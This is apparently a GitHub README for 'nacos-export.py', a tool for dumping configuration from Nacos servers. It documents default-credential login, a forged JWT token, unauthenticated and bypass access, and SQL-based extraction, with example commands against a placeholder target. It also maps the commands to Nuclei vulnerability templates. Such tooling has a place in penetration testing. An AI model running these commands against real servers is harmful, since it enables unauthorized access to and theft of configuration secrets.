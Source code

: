 # NACOS EXPORT

- ✅ 通过nacos账号密码导出配置
- ✅ 通过secretkey导出配置
- ✅ 通过token导出配置
- ✅ 通过unauth/bypass导出配置
- ✅ 导出配置数量统计
- ✅ 通过sql导出配置

## Use

考虑到NACOS部署方式不同，在设置目标路径时，指向 `/v1`的上一级目录.

> 若要将结果保存至文件，请通过重定向输出方式

```text
$ python3 nacos-export.py

 ______________
< Nacos Export >         @Author: Arm!tage
 --------------          @Version: v1.2.1
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||

Usage:
    python3 nacos-export.py <URL> <USERNAME> <PASSWORD>
    python3 nacos-export.py <URL> secretkey <SECRETKEY>
    python3 nacos-export.py <URL> <TOKEN>
    python3 nacos-export.py <URL> bypass|unauth
    python3 nacos-export.py <URL> sql

Example:
    python3 nacos-export.py http://TARGET:8848/nacos nacos nacos
    python3 nacos-export.py http://TARGET:8848/nacos secretkey SecretKey012345678901234567890123456789012345678901234567890123456789
    python3 nacos-export.py http://TARGET:8848/nacos eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6OTk5OTk5OTk5OTl9.-isk56R8NfioHVYmpj4oz92nUteNBCN3HRd0-Hfk76g
    python3 nacos-export.py http://TARGET:8848/nacos unauth
    python3 nacos-export.py http://TARGET:8848/nacos sql
```

## Nuclei Template

- **nacos-default-login**
  - `python3 nacos-export.py http://TARGET:8848/nacos nacos nacos`
- **unauthenticated-nacos-access**
  - `python3 nacos-export.py http://TARGET:8848/nacos unauth`
  - `python3 nacos-export.py http://TARGET:8848/nacos bypass`
- **nacos-auth-bypass**
  - `python3 nacos-export.py http://TARGET:8848/nacos unauth`
  - `python3 nacos-export.py http://TARGET:8848/nacos bypass`
- **nacos-authentication-bypass:extracted-credentials**
  - `python3 nacos-export.py http://TARGET:8848/nacos eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6OTk5OTk5OTk5OTl9.-isk56R8NfioHVYmpj4oz92nUteNBCN3HRd0-Hfk76g`
